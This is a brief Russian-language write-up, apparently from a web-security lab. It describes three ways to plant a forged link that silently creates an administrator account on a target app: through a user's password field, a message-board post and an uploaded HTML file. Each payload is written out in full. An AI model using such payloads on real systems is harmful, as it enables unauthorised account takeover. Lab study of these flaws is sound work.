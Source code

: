 ## Атака 1
Аккаунт нового пользователя создается с таким паролем <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>     (a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User" )

## Атака 2

В Message Board можно отправить такое сообщение <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>   (a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User" )


## Атака 3

B Upload PoC File можно добавить test.html с таким содержанием <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a> (a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User" )
